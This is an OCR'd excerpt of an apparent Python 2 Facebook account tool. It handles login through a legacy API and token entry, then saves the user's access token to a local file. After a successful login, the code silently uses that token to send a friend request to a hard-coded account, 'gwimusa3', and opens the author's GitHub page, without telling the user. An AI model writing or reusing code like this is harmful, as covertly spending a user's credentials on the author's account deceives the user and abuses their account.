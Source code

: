 				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				zedd = open("login.txt", 'w')
				zedd.write(z['access_token'])
				zedd.close()
				print '\n\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mLogin successfully'
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				os.system('xdg-open https://github.com/CrazyLolz100')
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;91m[!] No connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;91m[!] \033[1;93mAccount Checkpoint")
			print("\n\033[1;92m[#] Harap Login Ulang !")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;91m[!] Login Failed")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			
##### TOKEN #####
def tokenz():
	os.system('reset')
	print logo
	toket = raw_input("\033[1;91m[?] \033[1;92mToken\033[1;91m : \033[1;97m")
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		zedd = open("login.txt", 'w')
		zedd.write(toket)
		zedd.close()
		menu()
	except KeyError:
		print "\033[1;91m[!] Wrong"
		e = raw_input("\033[1;91m[?] \033[1;92mWant to pick up token?\033[1;97m[y/n]: ")
		if e =="":
			keluar()
		elif e =="y":
			login()
		else:
			keluar()
			
##### MENU ##########################################
def menu():
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('reset')
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)